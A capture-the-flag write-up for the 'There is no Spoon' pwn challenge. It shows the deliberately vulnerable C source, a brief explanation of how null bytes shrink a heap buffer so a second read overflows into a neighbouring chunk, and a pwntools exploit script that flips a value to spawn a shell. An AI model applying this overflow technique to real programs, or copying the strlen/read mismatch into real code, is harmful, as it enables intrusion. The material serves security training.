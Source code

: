### There is no Spoon (100 Points)

> Neo: bend reality, and understand the truth of the matrix.
>
> [attachment](thereisnospoon-3b08fb627c71c8c2149d1e57d98a1934)

the buffer2 size can be controlled and the argument of xor function is the return value of read.  so we can use "\x00" to make the var len bigger and buffer smaller. when the program call xor function, the  changeme will be changed 🤣

```c 
#include <stdio.h>
#include <unistd.h>
#include <string.h>
#include <stdlib.h>

char * xor(char * src, char * dest, int len) {
    for(int i = 0; i < len - 1; i++) {
        dest[i] = src[i] ^ dest[i];
    }
    dest[len-1] = 0;
    return dest;
}

int main() {
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);

    char buffer[256];
    int len = 256;

    printf("Neo, enter your matrix: ");
    len = read(0, buffer, len); // len 

    char * buffer2 = malloc(strlen(buffer));

    int * changeme = malloc(sizeof(int));
    *changeme = 255;
    printf("Reality: %d\n", *changeme);
    
    printf("Make your choice: ");
    len = read(0, buffer2, len);

    printf("Now bend reality. Remember: there is no spoon.\n");
    char * result = xor(buffer2, buffer, len);
    printf("Result: %s\n", result);
    printf("Reality: %d\n", *changeme);

    if (*changeme != 0xff) {
        system("/bin/sh");
    }
}
```

#### exploit script

```python
from pwn import *

p = process('./thereisnospoon-3b08fb627c71c8c2149d1e57d98a1934')
# p = remote('chal.ctf.b01lers.com',1006)
p.recvuntil('matrix:')

payload ='A'*8+'\x00'*0x20
# gdb.attach(p)
p.send(payload)

p.recvuntil('choice: ')

payload = 'B'*0x18
payload += p64(0x21) # chunk size
payload += p8(0x41)  # changeme
p.send(payload)

p.interactive()
```

